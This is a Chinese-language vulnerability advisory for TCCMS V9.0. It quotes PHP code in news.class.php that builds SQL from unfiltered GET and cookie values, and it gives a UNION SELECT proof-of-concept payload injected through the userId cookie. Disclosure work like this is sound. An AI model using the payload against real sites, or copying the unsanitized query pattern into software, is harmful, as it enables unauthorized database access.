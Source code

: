 # TCCMS V9.0 app/controller/news.class.php all函数导致SQL注入
---
### 1. 漏洞成因

在app/controller/news.class.php中all函数对参数过滤不严

```
public function all() {
    $this->userIsLogin ();
	$_Obj = M($this->objName);
	$categoryObj = M("category");
	$_Obj->pageSize = 20;
	$where = "1=1";
	$key = StringUtil::GetSQLValueString($_POST['key']);
	$cid = intval($_GET['cid']);
	if ($key != "") {
		$where .= " and title like '$key%'";
	}
	if (!empty($cid) && $cid != "") {
		$where .= " and classid = " . $cid;
	}
	if ($_GET["type"] == "user") {
		$where .= " and uid = " . $_COOKIE['userId'];
    }
	if (isset($_GET['yz'])) {
		$where .= " AND yz =".$_GET['yz'];
	}
	if (isset($_GET['levels'])) {
		$where .= " AND levels =".$_GET['levels'];
	}
	if (isset($_GET['special'])) {
		$where .= " AND special =".$_GET['special'];
	}
	if (isset($_GET['top'])) {
		$where .= " AND top =".$_GET['top'];
	}
	if (isset($_GET['flashpic'])) {
		$where .= " AND flashpic =".$_GET['flashpic'];
	}
	if (isset($_GET['isphoto'])) {
		$where .= " AND isphoto =".$_GET['isphoto'];
	}
	$_Obj->setSortId();
	$orderBy = $_GET['sortId'];
	$_objAry = $_Obj->where($where)->orderby("id ".$orderBy)->getList();
	$this->setValue("categoryObj", $categoryObj);
	$this->setValue("objAry", $_objAry);
	$this->setValue("Obj", $_Obj);
	$this->setValue("action", "list");
	$this->forward("user/newsList.html");
}
```

这里从get和cookie里获取了很多参数，都没有进行过滤，这里只拿其中的$cookie['userId']来进行测试，其他参数同理

### 2.漏洞验证
poc:

```
union select concat(floor(rand(0)*2),md5(1)),2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
```
![](http://images.sebug.net/contribute/1f583546-ded2-4555-bf37-50ae08942b39-tccms2.png)

### 3. 影响版本

TCCMS V9.0

### 4. 漏洞防护方案

升级版本